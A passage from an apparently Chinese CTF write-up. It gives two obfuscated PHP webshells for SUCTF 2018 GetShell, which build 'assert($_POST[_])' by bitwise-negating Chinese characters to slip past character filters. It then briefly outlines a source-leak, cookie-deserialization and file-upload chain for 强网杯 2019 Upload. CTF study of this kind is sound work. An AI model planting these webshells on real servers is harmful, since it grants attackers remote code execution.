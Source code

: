 汉字取反,fuzz：[SUCTF 2018\GetShell_末初 · mochu7-CSDN博客](https://blog.csdn.net/mochu7777777/article/details/107729445)

```
//shell.txt
//assert($_POST[_])
<?php
$__=[];
$_=($__==$__);
$__=~(融);
$___=$__[$_];
$__=~(匆);
$___.=$__[$_].$__[$_];
$__=~(随);
$___.=$__[$_];
$__=~(千);
$___.=$__[$_];
$__=~(苦);
$___.=$__[$_];
$____=~(~(_));
$__=~(诗);
$____.=$__[$_];
$__=~(尘);
$____.=$__[$_];
$__=~(欣);
$____.=$__[$_];
$__=~(站);
$____.=$__[$_];
$_=$$____;
$___($_[_]);
```

```
//a
<?=$_=[];$__.=$_;$____=$_==$_;$___=~茉[$____];$___.=~内[$____];$___.=~茉[$____];$___.=~苏[$____];$___.=~的[$____];$___.=~咩[$____];$_____=_;$_____.=~课[$____];$_____.=~尬[$____];$_____.=~笔[$____];$_____.=~端[$____];$__________=$$_____;$___($__________[~瞎[$____]]);
```

# [强网杯 2019]Upload

www.tar.gz 泄露，index.php存在反序列化cookie

![image-20220221144236116](https://img-blog.csdnimg.cn/img_convert/62956676ba3ffa4ca5844794c34b0a2f.png)

register.php为入口

![image-20220221145152657](https://img-blog.csdnimg.cn/img_convert/844ff9d68ecedc7f75d01a2f4e7886ae.png)

触发profile中魔法方法，调用upload_img方法，可控的文件名

![image-20220221145208936](https://img-blog.csdnimg.cn/img_convert/38b23843e950a396cef0f0c0b7230f38.png)
